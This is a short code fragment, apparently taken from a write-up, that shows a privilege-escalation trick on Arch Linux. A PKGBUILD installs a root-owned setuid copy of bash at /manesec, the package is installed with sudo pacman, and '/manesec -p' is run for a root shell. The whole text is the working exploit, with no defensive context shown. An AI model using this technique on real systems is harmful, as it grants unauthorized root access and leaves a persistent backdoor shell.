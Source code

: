 ```Plain Text
package() {
    install -Dm4777 -o root -g root "/bin/bash" "\$pkgdir/manesec"
}
EOF

makepkg -s
sudo pacman -U mane-1.0.2-1-any.pkg.tar.zst --noconfirm

/manesec -p 
```

